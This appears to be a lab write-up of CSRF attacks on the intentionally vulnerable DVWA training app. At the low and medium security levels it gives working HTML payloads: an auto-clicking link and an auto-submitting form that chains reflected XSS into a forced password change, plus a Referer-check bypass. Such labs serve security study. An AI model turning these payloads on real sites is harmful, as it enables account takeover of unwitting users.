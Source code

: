 `FOR ALL CASES USER MUST BE LOGGED IN`

## LOW
- Here attacker had to get the user to open a web page hosted by attacker which had the code below. 
- This is the get request url to change the password.
- I create an anchor tag ref to the url and us js to click on it and pw was changed.

```
<!-- Works for low -->

<body onload="document.querySelector('a').click();">

	<a href="http://192.168.0.104/dvwa/vulnerabilities/csrf/?password_new=termite&password_conf=termite&Change=Change">lol</a>

</body> 

<!-- low -->
```

## MEDIUM
- Same like above Social Engineering to get till this page.. 
- here server had a header referer verification
- since verification was based on partial text match in url, i.e. it checked for *goole* as referer but since user was navigated to pw change request by our site the header referer would have our page's url. 
- to by pass this we can make a page of that name and use that path.
	- i.e. evil.com/goole
- another way was to user xss to make user make that request from the same website 
- below code uses reflective xss and adds img tag ref to malicious url to user's page
```
<!-- Should work for Medium -->

<body onload="document.forms[0].submit()">

	<form action="http://192.168.0.104/dvwa/vulnerabilities/xss_r/" method="GET">
	
		<input type="hidden" name="name" value="<img src='http://192.168.0.104/dvwa/vulnerabilities/csrf/?password_new=dumbell&password_conf=dumbell&Change=Change'">

		<input type="submit">Submit</input>

	</form>

</body>

<!-- medium -->
```